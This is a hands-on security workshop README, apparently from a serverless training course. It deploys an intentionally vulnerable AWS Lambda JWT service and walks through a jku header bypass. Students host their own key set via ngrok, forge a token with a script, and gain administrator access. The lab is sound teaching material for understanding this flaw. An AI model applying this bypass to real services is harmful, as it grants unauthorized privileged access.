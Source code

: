 ## JWT - JKU Authorization Bypass

**Note:** If you have not setup your aws cli follow [AWS-CLI-Configuration](aws-configure/README.md) under the `Setup` section*

* Step 1: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 2: Run `pip3 install pipenv`

```commandline
pip3 install pipenv
```

* Step 3: Run `pipenv install`

```commandline
pipenv install
```

* Step 4: `pipenv shell`

```commandline
pipenv shell
``` 

* Step 5: In your image, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`

```commandline
cd /root/labs/Serverless-Workshop/JWT-JWK
```

* Step 6: Run `sls plugin install -n serverless-python-requirements`

```commandline
sls plugin install -n serverless-python-requirements
```

* Wait for instructor to explain the contents of the lab
* Step 7: Install a package for this to work `npm install -g jwt-cli`

```commandline
npm install -g jwt-cli
```

* Step 8: Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/JWT-JWK/serverless.yml)

* Step 9: Deploy the function with the command `sls deploy`

```commandline
sls deploy
```

* Wait for the function to deploy completely

* Step 10: Initialize the Program with the following command 

```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
```

you should see an output like this

```bash
    HTTP/1.1 200 OK
    Connection: keep-alive
    Content-Length: 73
    Content-Type: application/json
    Date: Fri, 26 Jul 2019 11:56:09 GMT
    Via: 1.1 706c647442c234a140558b049b967cc5.cloudfront.net (CloudFront)
    X-Amz-Cf-Id: GPaQyO3YdDda1NBe5hqqZ5a7Mpdf5NgZxm2kjQm1TQk76V2cWQ9m_Q==
    X-Amz-Cf-Pop: BLR50-C1
    X-Amzn-Trace-Id: Root=1-5d3aea58-c194ed1820098bd0973e3f08;Sampled=0
    X-Cache: Miss from cloudfront
    x-amz-apigw-id: dbmNwEp0PHcFY8Q=
    x-amzn-RequestId: 5a8fc007-af9c-11e9-b076-b3cc7c0d1d4b
    
    {
        "url": "https://jwk-resources-1564139712929.s3.amazonaws.com/jwks.json"
    }
```
* Step 11: Now, obtain a token from the system by logging in

```bash
http POST https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/login user=admin password=admin
```

you should see output like this

```json
{
    "token": "eyJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vandrLXJlc291cmNlcy0xNTY0MTM5NzEyOTI5LnMzLmFtYXpvbmF3cy5jb20vandrcy5qc29uIn0.eyJ1c2VyIjoidXNlciJ9.hsA7nYpgplSmhLLhFX18cJTO2HGJYeqMDT8OQe1IZRWseH9ZDOiSa1QHQvSkhmrVSB8h_0Cw6nCj_v5JblnyUC-peY1nWzDAD1xbZCfY0PDUXaq-mKOxfr1-X0Uotc-UabTISGcciLl3DJvRspJa928xNrMM5JRIpYX3X5UpiucmUcbBtudYn-KPgVJVbAvCxB_cAGTi5IWT7bDMnO5-ofcL29xjo-BYhkX9JVPG3xg6yfKEOTSgFjLq6dbldu_sNX-KSwohKKRVkhIkSQOpIdUcw8u9BMqJ3tSE8fgugEZfu5oGqciz9jo_CRwahkEjkZ8XCc4QtfO_TiL63sDnCA",
    "user": "user"
}
```

* Step 12: Copy the `token` value and run `jwt <copied token value>`

```commandline
jwt <copied token value>
```

* You should see something like this

```bash
Header
{
  "alg": "RS256",
  "jku": "https://jwk-resources-1564139712929.s3.amazonaws.com/jwks.json"
}

Payload
{
  "user": "user"
}

```

* Step 13: Now, open another two tabs of your lab image. You have now a total of three tabs. Let's call the current tab, **Tab 1**

In the **Tab 2**: 
* Step 14: In your image, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`

```commandline
cd /root/labs/Serverless-Workshop/JWT-JWK
```

* Step 15: Run: `python -m http.server`

```commandline
python -m http.server
```

In the **Tab 3**:

* Step 16: Install *ngrok* `wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip`

```commandline
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
```

* Step 17: `unzip` the *ngrok* `unzip ngrok-stable-linux-amd64.zip`

```commandline
unzip ngrok-stable-linux-amd64.zip
```

* Step 18: Run `./ngrok http 8000`

```commandline
./ngrok http 8000
```

```bash
Session Status                online
Session Expires               7 hours, 10 minutes
Update                        update available (version 2.3.34, Ctrl-U to update
Version                       2.2.8
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://f8ccd11d.ngrok.io -> localhost:8000
Forwarding                    https://f8ccd11d.ngrok.io -> localhost:8000
```

Back in **Tab 1**:
* Step 17: Run `python token_gen.py https://f8ccd11d.ngrok.io` with copied *ngrok*  https `Forwarding` value 

```commandline
python token_gen.py https://<ngrok https forwarding value>.ngrok.io
```
 
* Step 18: Copy the generated token starting `ey....`

* Step 19: Run
 
```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/jwk Authorization:<Copied Token>
```

**Note:** You should see a response, that you are administrator


### Teardown

* Step 20: **Tab 1**, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`

```commandline
cd /root/labs/Serverless-Workshop/JWT-JWK
```

* Step 21: Run `sls remove` to remove stack

```commandline
sls remove --force
```

* Step 22: Deactivate `pipenv` using `deactivate` command

```commandline
deactivate
```

```commandline
exit
```

* Step 23: **Tab 2** Run `ctrl+c` and close tab

* Step 24: **Tab 3** Run `ctrl+c` and close tab
